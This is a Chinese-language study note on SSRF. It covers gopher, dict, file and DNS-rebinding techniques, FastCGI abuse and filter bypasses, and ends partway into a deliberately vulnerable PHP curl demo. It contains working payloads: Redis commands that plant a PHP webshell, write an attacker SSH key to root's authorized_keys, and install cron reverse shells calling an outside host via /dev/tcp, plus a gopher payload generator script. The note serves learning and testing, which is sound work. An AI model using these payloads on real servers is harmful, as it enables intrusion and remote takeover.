




# SSRF整理


&lt;!--more--&gt;

# SSRF是什么

{{&lt; admonition type=info title=&#34;定义&#34; open=true &gt;}}
一种针对服务器的攻击，构造恶意请求，让服务器访问指定的URL。
{{&lt; /admonition &gt;}}

## 条件
1. 服务器提供从其他地方请求获取数据的功能，比如&lt;u&gt;“获取快照”，“网页翻译”&lt;/u&gt;
2. 未对目标地址进行适当过滤与限制，换句话说，就是，有漏洞可以利用


&lt;br&gt;

## 利用目的

换言之，用SSRF可以搞什么

{{&lt; admonition type=abstract title=&#34;利用目的&#34; open=true &gt;}}
1.访问内网，包括访问文件&lt;br&gt;
2.指纹、端口扫描&lt;br&gt;
3.攻击内网WEB应用——通过发送构造的数据包
{{&lt; /admonition &gt;}}


&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;

# 常见形式


## SSRF出没请注意

在上面的定义就提到了一些

1. 通过URL翻译整个网页的服务
2. 通过URL下载资源（图片，视频）的服务
3. 能够对外发起网络请求的地方


## 利用的协议


大致可以分为以下几种：
{{&lt; admonition type=example title=&#34;协议&#34; open=true &gt;}}
1.文件协议file&lt;br&gt;2.gopher协议&lt;br&gt;3.dict协议&lt;br&gt;4.HTTP协议&lt;br&gt;5.DNS协议
{{&lt; /admonition &gt;}}

然后来逐个解释一下利用点和利用结果
&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;

### FILE

&gt;file:///path/to/file

&lt;br&gt;

其实并不陌生，当打开一个本地的文件的时候，浏览器搜索框就是使用这个协议，belike：
&lt;br&gt;


&lt;br&gt;只不过大多数时候会自动省去这个`file:///`。

&lt;br&gt;
这个协议基本用于读取本地文件


&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;

### gopher协议

&gt;Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。

{{&lt; admonition type=info title=&#34;一些info&#34; open=true &gt;}}
该协议支持GET、POST请求&lt;br&gt;
`gopher://host:port/path/data-flow`
{{&lt; /admonition &gt;}}

一点例子：

&lt;br&gt;

#### GET请求：

```html
GET /ssrf/base/get.php?a=hello HTTP/1.1
HOST: 192.xxx.xxx.xxx
```

通过gopher进行传输就是
&lt;br&gt;
```html
gopher://192.xxx.xxx.xxx:80/_GET%20/ssrf/base/get.php%3fa=hello%20HTTP/1.1%0d%0AHost:%20192.xxx.xxx.xxx%0d%0A
```


&lt;br&gt;

#### POST请求

&lt;br&gt;

```html
POST /ssrf/base/post.php HTTP/1.1
host:192.168.0.109

name=Margin
```

转换之后：&lt;br&gt;
```text
gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A

```

&lt;br&gt;

#### 利用点

{{&lt; admonition type=info title=&#34;两个方面&#34; open=true &gt;}}
1.配合FastGCI协议进行攻击&lt;br&gt;
2.攻击Redis
{{&lt; /admonition &gt;}}


&lt;br&gt;

#### FastGCI协议

screaming queen

1. **record**：Fastcgi协议由多个 **record** 组成，
	1. record也有 &lt;u&gt;header和body&lt;/u&gt; 一说，
	2. 服务器中间件将这二者按照 fastcgi 的规则封装好发送给语言后端，
	3. 语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。
2. **type**：
    1. 因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过`type`来标志每个record的作用，用`requestId`作为同一次请求的id。
    2. 具体请参看链接，有七个，字太多，不想做无情打字机
3. **PHP-FPM**：一个协议&lt;u&gt;解析器&lt;/u&gt;
    1. 后端服务器按照FastGCI协议打包请求
    2. packed请求通过_TCP_发送给FPM


&lt;br&gt;
&lt;br&gt;


**情景再现**：(AKA真实数据包一览进行理解)

1.  **用户访问** `http://127.0.0.1/index.php?a=1&amp;b=2`
 2. **web目录**是 `/var/www/html/`

那么根据FastGCI协议进行打包的协议belike：

```json
{
    &#39;GATEWAY_INTERFACE&#39;: &#39;FastCGI/1.0&#39;,
    &#39;REQUEST_METHOD&#39;: &#39;GET&#39;,
    &#39;SCRIPT_FILENAME&#39;: &#39;/var/www/html/index.php&#39;,
    &#39;SCRIPT_NAME&#39;: &#39;/index.php&#39;,
    &#39;QUERY_STRING&#39;: &#39;?a=1&amp;b=2&#39;,
    &#39;REQUEST_URI&#39;: &#39;/index.php?a=1&amp;b=2&#39;,
    &#39;DOCUMENT_ROOT&#39;: &#39;/var/www/html&#39;,
    &#39;SERVER_SOFTWARE&#39;: &#39;php/fcgiclient&#39;,
    &#39;REMOTE_ADDR&#39;: &#39;127.0.0.1&#39;,
    &#39;REMOTE_PORT&#39;: &#39;12345&#39;,
    &#39;SERVER_ADDR&#39;: &#39;127.0.0.1&#39;,
    &#39;SERVER_PORT&#39;: &#39;80&#39;,
    &#39;SERVER_NAME&#39;: &#34;localhost&#34;,
    &#39;SERVER_PROTOCOL&#39;: &#39;HTTP/1.1&#39;
}
```


&lt;br&gt;

**一个重点**：

- **上面这个数组其实就是PHP中`$_SERVER`数组的一部分，也就是PHP里的环境变量。**
- **但环境变量的作用不仅是填充`$_SERVER`数组，也是告诉fpm：“我要执行哪个PHP文件”。**

（所以在上面出现过的`$_SERVER[]` 是一个数组，不过那是遵循HTTP协议的。）

3. **最后**  FPM得到数据包之后，进行解析，按照解析出来的变量值进行访问指定文件。

&lt;br&gt;

##### 其中的漏洞

{{&lt; admonition type=bug title=&#34;漏洞&#34; open=true &gt;}}
与PHP有关。
{{&lt; /admonition &gt;}}

当访问`http://127.0.0.1/favicon.ico/.php` 的时候，按照FastGCI协议得到部分数据包如下：

```json
{
    ...
    &#39;SCRIPT_FILENAME&#39;: &#39;/var/www/html/favicon.ico/.php&#39;,
    &#39;SCRIPT_NAME&#39;: &#39;/favicon.ico/.php&#39;,
    &#39;REQUEST_URI&#39;: &#39;/favicon.ico/.php&#39;,
    &#39;DOCUMENT_ROOT&#39;: &#39;/var/www/html&#39;,
    ...
}
```

- `&#39;SCRIPT_FILENAME&#39;: &#39;/var/www/html/favicon.ico/.php&#39;` 指定的文件肯定是一个不存在的文件&lt;br&gt;
- 而PHP的`fix_pathinfo` 会让FPM判断文件是否存在，不存在就去掉最后一个`/` 及其后面的所有内容。这里就是去掉了`/.php` ，再判断留下了的是否存在，不存在就接着继续丢弃，直到存在为止。&lt;br&gt;
- PHP存在一个漏洞，将`&#39;/var/www/html/favicon.ico/.php&#39;` 当作php文件进行解析，即使这个`.php` 被丢弃了。所以留下来的`&#39;/var/www/html/favicon.ico` 被当作php解析执行。

&lt;br&gt;

**对于此有一个安全防护措施**：

1. 在服务器（Nginx）使用`fast_split_info` 将 &lt;u&gt;path info&lt;/u&gt;去除，使用**tryfiles**判断文件是否存在。
2. 借助PHP-FPM的security.limit_extensions配置项，避免其他后缀文件被解析。（现在大多数都默认开启，只允许.php后缀被解析）


&lt;br&gt;

由于第二条的限制，就算让FPM执行，也只能执行服务器上自带的php文件，并不能做到想要的执行任意文件（代码）。


&lt;br&gt;

但又因为

- `auto_prepend_file` ：指定在主文件之前自动解析的文件名。included 该文件像是用 [require](https://www.php.net/manual/zh/function.require.php) 函数调用的一样，因此使用了 include_path。特殊值 `none` 禁用 auto-prepending。
- `auto_append_file` ：指定在主文件之后自动解析的文件名。included 该文件像是用 [require](https://www.php.net/manual/zh/function.require.php) 函数调用的一样，因此使用了 [include_path](https://www.php.net/manual/zh/ini.core.php#ini.include-path)。特殊值 `none` 禁用 `auto-prepending`。

让FPM惨遭背刺：

- 设置`auto_prepend_file` 的参数值为`php://input` ，意味着，该php文件要包含请求内容（一般为POST），而这样，&lt;u&gt;当恶意代码放置到body中的时候&lt;/u&gt;，就会被执行。
    - 当然，还需要开启远程文件包含选项`allow_url_include`）
- `auto_append_file` 的利用应该一样…（后面实验一下）


&lt;hr&gt;


&lt;br&gt;

#### 攻击Redis

&gt; 看起来主要用到diict和gopher

##### [RESP协议](https://redis.com.cn/topics/protocol.html)

&gt; Redis服务器通过RESP协议和客户端通信。

&gt; 一个支持多种数据类型的序列化协议：简单字符串（Simple Strings）,错误（ Errors）,整型（ Integers）, 大容量字符串（Bulk Strings）和数组（Arrays）。

用法：

- 客户端 以_Bulk Strings RESP数组_的方式发送命令给 服务器端。
    
- 服务器端 根据命令的具体实现，返回某一种_RESP数据类型_。
    
    - RESP的数据类型依赖于首字节：
        
    - 类型
        
        - 单行字符串（Simple Strings）： 响应的首字节是 &#34;`&#43;`&#34;
        - 错误（Errors）： 响应的首字节是 &#34;`-`&#34;
        - 整型（Integers）： 响应的首字节是 &#34;`:`&#34;
        - 多行字符串（Bulk Strings）： 响应的首字节是&#34;`\\$`&#34;
        - 数组（Arrays）： 响应的首字节是 `*`
        
        [Redis协议详细规范](https://redis.com.cn/topics/protocol.html)
        
- RESP协议的不同部分总是以 &#34;`\\r\\n`&#34; (CRLF) 结束。
    

##### Bulk Strings 数组

格式：

- `*` 为首字符
- 表示数组中元素个数的十进制数
- CRLF结尾
- 外加数组中每个RESP类型的元素（这句话在讲个什么？）

举例：

1. 空数组： *0\r\n
2. 两个RESP多行字符串“foo”和“bar”元素的 数组：`*2\\r\\n$3\\r\\nfoo\\r\\n$3\\r\\nbar\\r\\n`
3. 混合多类型多行数组：其包含的是5个元素，前四个都是数字1, 2, 3, 4，最后一个是字符串foobar，如下面的例子：

```
*5\\r\\n
:1\\r\\n
:2\\r\\n
:3\\r\\n
:4\\r\\n
$6\\r\\n
foobar\\r\\n
```

&lt;br&gt;当 Redis 返回一个空数组的时候，Redis客户端库API应该返回一个空对象而不是返回一个空数组。这对区分空列表和其它不同情况（像 BLPOP 命令超时情况）是必要的。

- **BLPOP命令**：移出并获取列表的第一个元素， 如果列表没有元素会阻塞列表直到等待超时或发现可弹出元素为止。它是 LPOP 的阻塞版本。
    - 当给定多个 key 参数时，按参数 key 的先后顺序依次检查各个列表，弹出第一个非空列表的头元素。
- LPOP命令：用于删除并返回存储在 `key` 中的列表的第一个元素。

##### 发送命令到服务器

- 客户端发送包含只有多行字符串的数组给Redis服务器
- Redis服务器给客户端发送任意有效的RESP数据类型作为响应

belike：C=客户端；S=服务器端

```
C: *2\\r\\n
C: $4\\r\\n
C: LLEN\\r\\n
C: $6\\r\\n
C: mylist\\r\\n

S: :48293\\r\\n
```

---

到这里大概了解了Redis的数据交互

**Redis常用命令**

1. 启动Redis：`redis-server [--port 6379]` 
2. 连接服务器：`redis-cli -h 127.0.0.1 -p 6379 -a &#34;mypass&#34;`
3. 停止redis：`redis-cli shutdown` 或者`kill redis-pid` 
4. 给Redis发送命令有两种方式： 
	1. redis-cli带参数运行，如：

```
`&gt; redis-cli shutdown
not connected&gt;` 

这样默认是发送到本地的6379端口。

b.  redis-cli不带参数运行，如

`./redis-cli`
`127.0.0.1:6379&gt; shutdown`
`not connected&gt;`
```

`redis config get dir` #检查当前保存路径

`config get dbfilename` #检查保存文件名

`config set dir /root/.ssh/` #设置保存路径

`config set dbfilename authorized_keys` #设置保存文件名

`set xz “\\n\\n\\n 公钥 \\n\\n\\n”` #将公钥写入xz健

`save` #进行保存


&lt;br&gt;

##### Redis &#43; gopher

&gt; gopher是SSRF的万金油，不过听起来现在是一个被重点监视对象了。

 **webshell**

```redis
flushall # 清空Redis中所有数据，即数据库中所有键值对，为接下来的操作提供一个clean环境
set 1 &#39;&lt;?php eval($_GET[&#34;cmd&#34;]);?&gt;&#39; # 在Redis中设置一个键值对，键为 1 ，值为&lt;?php eval($_GET[&#34;cmd&#34;]);?&gt;
config set dir /var/www/html # 更改Redis的工作目录为/var/www/html
config set dbfilename shell.php # 更改Redis保存数据库文件的名称为 shell.php，下一次的保存操作会将数据库内容保存进该文件，即/var/www/html/shell.php
save # 保存
```

然后结合gopher协议，写一个script来生成webshell

```python
import urllib
protocol=&#34;gopher://&#34;
ip=&#34;192.168.163.128&#34;
port=&#34;6379&#34;
shell=&#34;\\n\\n&lt;?php eval($_GET[\\&#34;cmd\\&#34;]);?&gt;\\n\\n&#34;
filename=&#34;shell.php&#34;
path=&#34;/var/www/html&#34;
passwd=&#34;&#34;
cmd=[&#34;flushall&#34;,
     &#34;set 1 {}&#34;.format(shell.replace(&#34; &#34;,&#34;${IFS}&#34;)),
     &#34;config set dir {}&#34;.format(path),
     &#34;config set dbfilename {}&#34;.format(filename),
     &#34;save&#34;
     ]
if passwd:
    cmd.insert(0,&#34;AUTH {}&#34;.format(passwd))
payload=protocol&#43;ip&#43;&#34;:&#34;&#43;port&#43;&#34;/_&#34;
def redis_format(arr):
    CRLF=&#34;\\r\\n&#34;
    redis_arr = arr.split(&#34; &#34;)
    cmd=&#34;&#34;
    cmd&#43;=&#34;*&#34;&#43;str(len(redis_arr))
    for x in redis_arr:
        cmd&#43;=CRLF&#43;&#34;$&#34;&#43;str(len((x.replace(&#34;${IFS}&#34;,&#34; &#34;))))&#43;CRLF&#43;x.replace(&#34;${IFS}&#34;,&#34; &#34;)
    cmd&#43;=CRLF
    return cmd

if __name__==&#34;__main__&#34;:
    for x in cmd:
        payload &#43;= urllib.quote(redis_format(x))
    print payload
```

&lt;br&gt;不过看PayloadsAllTheThings里面的SSRF篇提到的SSRF explloiting Redis提到gopher（写入反向shell版本）：

```python
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

看起来是批次写入，仔细看会发现是相同的模板。
&lt;br&gt;
&lt;br&gt;其所展示的dict攻击redis模板也差不多：

```python
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20&#34;&lt;\\x3Fphp system($_GET[0])\\x3F&gt;&#34;
url=dict://127.0.0.1:6379/SAVE
```

但dict好像常用于探测端口。

&lt;br&gt;

##### ssh public key

&gt; 关于为什么有这么个利用方式，或许还记得github的ssh以及在玩hack the box的时候看过的一个ssh连接。

**条件：**

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

- 如果存在`.ssh`目录——直接写入`~/.ssh/authorized_keys` ：**`authorized_keys`** 是 SSH 的一个文件，_存储了被允许通过公钥认证登录到服务器的公钥_。
- 如果不存在——利用`crontab`创建目录

```redis
flushall
set 1 &#39;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGd9qrfBQqsml&#43;aGC/PoXsKGFhW3sucZ81fiESpJ&#43;HSk1ILv&#43;mhmU2QNcopiPiTu&#43;kGqJYjIanrQEFbtL&#43;NiWaAHahSO3cgPYXpQ&#43;lW0FQwStEHyDzYOM3Jq6VMy8PSPqkoIBWc7Gsu6541NhdltPGH202M7PfA6fXyPR/BSq30ixoAT1vKKYMp8&#43;8/eyeJzDSr0iSplzhKPkQBYquoiyIs70CTp7HjNwsE2lKf4WV8XpJm7DHSnnnu&#43;1kqJMw0F/3NqhrxYK8KpPzpfQNpkAhKCozhOwH2OdNuypyrXPf3px06utkTp6jvx3ESRfJ89jmuM9y4WozM3dylOwMWjal root@kali
&#39; # 一样的，设置键值对，键为1， 值为SSH公钥，而这个公钥对应着攻击者手中的私钥
config set dir /root/.ssh/ # 到这个文件目录
config set dbfilename authorized_keys # 写入这个文件中
save # 保存
```

也可以通过gopher或者dict将生成的payload写入。&lt;br&gt;

写入之后，使用`ssh username@hostname`来进行连接。
&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;


**关于SSH公钥和密钥的生成方法：**

LINUX（UNIX、MACOS）

```python
ssh-keygen -t rsa -b 4096 -C &#34;your_email@example.com&#34;
# -t rsa 表示指定生成RSA类型密钥
# -b 4096 表示密钥长度4096位，默认是2048位
# -C “” 用于注释标识密钥，可以是邮箱也可以是用户名、计算机名、日期等，上面那个例子中就是root@kali
```

后面就是输入文件所在地，回车就默认`~/.ssh/id_rsa` ，windows就去user里面找。

再后面就是密码，回车默认无。

- _`id_rsa`_：私钥文件
- _`id_rsa.pub`_：公钥文件

另外一种，通过python
```python
import paramiko # 创建RSA密钥对 
key = paramiko.RSAKey.generate(4096) # 保存私钥 

private_key_path = &#39;id_rsa&#39; with open(private_key_path, &#39;w&#39;) as private_key_file: 
	key.write_private_key(private_key_file) # 保存公钥 
	
public_key_path = &#39;id_rsa.pub&#39; with open(public_key_path, &#39;w&#39;) as public_key_file: 
	public_key_file.write(f&#39;{key.get_name()} {key.get_base64()} root@kali&#39;) 
	
print(f&#39;Private key saved to {private_key_path}&#39;) 
print(f&#39;Public key saved to {public_key_path}&#39;)
```


&lt;br&gt;

把生成的SSH公钥通过script进行发送

不过kali应该有相关工具，找找去，贴上来。


&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;

##### Redis &#43; contrab

AKA **利用contrab计划任务反弹shell**

参考这个
[Linux命令 之 contrab - CopyLeft - 博客园](https://www.cnblogs.com/CopyStyle/p/13360079.html)&lt;br&gt;

contrab（谁知道到底是con还是cron？）&lt;br&gt;

&gt; 一个执行定时任务的命令，在linux上

```python
f1 f2 f3 f4 f5 program
# f1 表示分钟
# f2 表示小时
# f3 表示一个月中的第几天
# f4 表示月份
# f5 表示一个星期中的第几天
# program 表示要执行的任务程序

# a-b 表示a到b
# */n 表示每n时间段执行一次
# a，b，c表示a，b，c这几个时间点要执行
```

```python
# 每分钟执行一次
* * * * * /bin/ls

# 在12月，每天的早上6点到12点，每隔3小时执行一次
* 6-12/3 * 12 *  /bin/ls

# 每个月每天的0点20分，2点20分，4点20分执行一次
20 0, 2, 4 * * * * echo &#34;doja!&#34;

```

大概就是这样的一个命令&lt;br&gt;
&gt; 只能在CentOS上使用，Ubuntu不行

- 理由
    
    redis默认文件写入权限为644，但ubuntu要求执行定时任务的文件权限是600，CentOS的644也可以。&lt;u&gt;redis在Ubuntu上RDB&lt;/u&gt;会报错——存在乱码
    
	**Redis 持久化机制**
    
    Redis 提供两种主要的持久化机制：
    
    1. **RDB (Redis Database File)**：定期将内存中的数据快照保存到磁盘。它是通过 fork 一个子进程来保存快照（snapshot），并将快照数据保存为二进制文件。
    2. **AOF (Append Only File)**：记录每个写操作，以追加的方式保存到文件。AOF 文件可以在 Redis 重启时重新播放这些操作，以恢复数据。


&lt;br&gt;
&lt;br&gt;
以及 Centos的定时任务文件在`/var/spool/cron/`
&lt;br&gt;
攻击命令（写入反向shell）：

```python
flushall
set 1 &#39;\\n\\n*/1 * * * * bash -i &gt;&amp; /dev/tcp/192.168.163.132/2333 0&gt;&amp;1\\n\\n&#39;
config set dir /var/spool/cron/
config set dbfilename root
save
```
&lt;br&gt;
也是通过
下面那个exp
修改版本加载得到gopher或者dict的payload，再用curl写入


[exp链接](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

&lt;hr&gt;

### DICT协议

&gt;SSRF 常配合 DICT 协议探测内网端口开放情况
&gt;词典网络协议，在RFC 2009中进行描述。它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628。


{{&lt; admonition type=info title=&#34;一些info&#34; open=true &gt;}}
`dict://&lt;user&gt;;&lt;auth&gt;@&lt;host&gt;:&lt;port&gt;/d:&lt;word&gt;:&lt;database&gt;:&lt;n&gt;`
`ssrf.php?url=dict://attacker:11111/`
{{&lt; /admonition &gt;}}


- 如果服务端不支持gopher协议，可尝试dict协议
- 不过通过dict协议的话要一条一条的执行，而gopher协议执行一条命令就行了。
- curl扩展也支持dict协议，可以配合curl命令发送请求，但也可以直接在浏览器上或者bp发包请求。

&lt;br&gt;
&lt;hr&gt;


### DNS

关于DNS是什么，就简单理解为，是一个存储ip和域名键值对的存储器，同时还能进行键值对对应解析。
&lt;br&gt;
在这里主要是用到了 &lt;u&gt;&lt;b&gt;DNS解析与TTL的利用&lt;/b&gt;&lt;/u&gt;，进行DNS重绑定，将有恶意代码的请求送出。


#### **理解DNS解析与TTL的关系**

**DNS解析与TTL的基础知识：**

1. **DNS解析过程**：
    - 用户请求域名（例如**`example.com`**）。
    - 浏览器或操作系统检查本地缓存（包含上次解析的结果）。
    - 如果缓存中没有有效记录，请求发送到DNS解析器（通常由ISP或配置的DNS服务器提供）。
    - DNS解析器递归查询根域名服务器、顶级域名服务器（TLD）和权威DNS服务器，最终返回IP地址。
2. **TTL（Time-To-Live）**：
    - TTL值决定DNS记录在缓存中的有效期。
    - 当TTL过期后，缓存中的记录被移除，必须重新解析域名。


#### **DNS重绑定攻击的基本原理**

DNS重绑定攻击通常包括以下步骤：

1. **攻击者控制一个域名和DNS服务器**：攻击者注册一个域名，并控制该域名的DNS服务器。
2. **首次解析指向攻击者服务器**：当受害者（或服务器）首次解析该域名时，DNS服务器返回一个IP地址，通常是攻击者控制的服务器的IP。
3. **短TTL（生存时间）**：DNS服务器为该记录设置一个非常短的TTL（生存时间），迫使客户端在短时间内再次进行DNS解析。
4. **再次解析指向内部IP**：当TTL过期后，受害者再次解析该域名时，DNS服务器返回一个不同的IP地址，这次是内部网络中的IP地址。
5. **利用同源策略漏洞**：如果受害者的客户端是一个Web浏览器，由于同源策略的限制，它认为访问的同一个域名（尽管IP地址不同）仍然是同源的，允许进行数据交换。对于服务端应用，例如SSRF，可能不会有同源策略的限制，但IP地址检查可能被绕过。


&lt;hr&gt;


#### **重新解析后的IP地址变化**

**为什么重新解析会得到不同的IP地址**：

1. **短TTL和动态变化**：
    - 短TTL设置允许域名的IP地址频繁变化。
    - 攻击者可以利用短TTL进行DNS重绑定攻击，第一次解析返回合法IP，随后解析返回内部或目标IP。
2. **负载均衡**：
    - 使用DNS轮询或负载均衡技术的域名，解析返回多个IP地址中的一个。 ：递归查询简单理解就是，一步一步往上，不同层作为请求方向上请求查询，最后返回。
    - 每次解析可能返回不同的IP地址，以分散流量和提高可靠性。
3. **CDN和地理位置**：
    - 内容分发网络（CDN）根据用户地理位置返回最近的服务器IP地址。
    - 不同用户或同一用户在不同时间解析可能得到不同IP地址。

&lt;br&gt;
&lt;br&gt;
&lt;hr&gt;

## 绕过

&lt;br&gt;
### localhost

- `https:127.0.0.1 = http://127.0.0.1，localhost`同理
- IPv6/IPv4 地址嵌套（Address Embedding）：一种在 IPv6 网络中使用 IPv4 地址的方法。
- 十进制或者十六进制
- `http://[::]:80/ = http://127.0.0.1:80/`


### @
- URL Bypass：@；_涉及URL解析_
    - 原因
        
        ## **URL解析规则**
        
        在解析URL时,@符号之前的部分被解析为用户信息(credentials),@之后的部分才是真正的主机地址。所以当解析
        
        `http://www.baidu.com@10.10.10.10/`
        
        时:
        
        - `www.baidu.com `被视为用户信息
        - `10.10.10.10` 被视为主机地址
        
        因此,这个URL实际上是向` 10.10.10.10` 这个IP地址发起的HTTP请求,与直接请求
        
        `http://10.10.10.10/`
        
        是完全相同的。

### curl &#43; bash
&gt;简单解释一下，就是，在，命令提示符中，先定义一个变量，然后赋值（），然后用curl -v 命令中进行拼接

简单举例就是这么个意思：

```bash
$v = &#39;evi&#39;
curl -lv $vl.com
```


&lt;br&gt;
&lt;hr&gt;

# 模拟

```php
&lt;!doctype html&gt;

&lt;html lang=&#34;en&#34;&gt;

  &lt;head&gt;

    &lt;meta charset=&#34;utf-8&#34;&gt;

    &lt;meta name=&#34;viewport&#34; content=&#34;width=device-width, initial-scale=1, shrink-to-fit=no&#34;&gt;

    &lt;link rel=&#34;stylesheet&#34; href=&#34;./attachs/bootstrap.css&#34;&gt;

    &lt;link rel=&#34;shortcut icon&#34; href=&#34;./attachs/favicon.ico&#34; type=&#34;image/x-icon&#34; /&gt;

    &lt;title&gt;Hello, SSRF!&lt;/title&gt;

  &lt;/head&gt;

  &lt;body&gt;

  &lt;?php

    error_reporting(0);

    function curl($url){

      $ch = curl_init();

      curl_setopt($ch, CURLOPT_URL, $url);

      curl_setopt($ch, CURLOPT_HEADER, 0);

      curl_exec($ch);

      curl_close($ch);

    }

  ?&gt;

  &lt;nav class=&#34;navbar navbar-expand-lg navbar-light bg-light&#34;&gt;

